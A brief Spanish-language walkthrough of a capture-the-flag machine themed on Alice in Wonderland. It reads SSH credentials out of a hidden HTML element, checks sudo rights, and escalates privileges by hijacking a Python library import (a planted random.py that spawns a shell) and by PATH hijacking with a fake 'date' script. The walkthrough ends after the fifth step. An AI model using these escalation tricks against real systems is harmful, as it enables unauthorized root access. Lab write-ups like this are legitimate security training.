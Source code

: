 1. Enumera hasta encontrar el ssh y la contraseña

**url**: `10.10.89.199/r/a/b/b/i/t/`
**en el código fuente**:
<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
`<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>`

2. Conectarse por ssh
```sh
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
```

3. ¿Que puedes ejecutar cómo admin?
```sh
# AQUÍ TE ESTÁ DICIENDO QUE PUEDES EJECUTAR walrus_and_the_carpenter con el usuario rabbit
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
4. Cómo el script de python no define exactamente dónde está la biblioteca (la ruta es relativa) podemos reemplazarla por la nuestra
```sh
# (en el mismo lugar dónde se ejecuta)
vim random.py # (escribir ejecutar shell y se ejecutará en walrus...)
/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
5. Una vez en rabbit
```sh
# Modificar $PATH (dónde se accede a los ejecutables, binarios)
# Como en tmp tenemos permisos escribimos un bash llamado "date" que nos de un bash
# #!/bin/bash
# /bin/bash
chmod +x date

# y Ejecutamos ./teaParty
```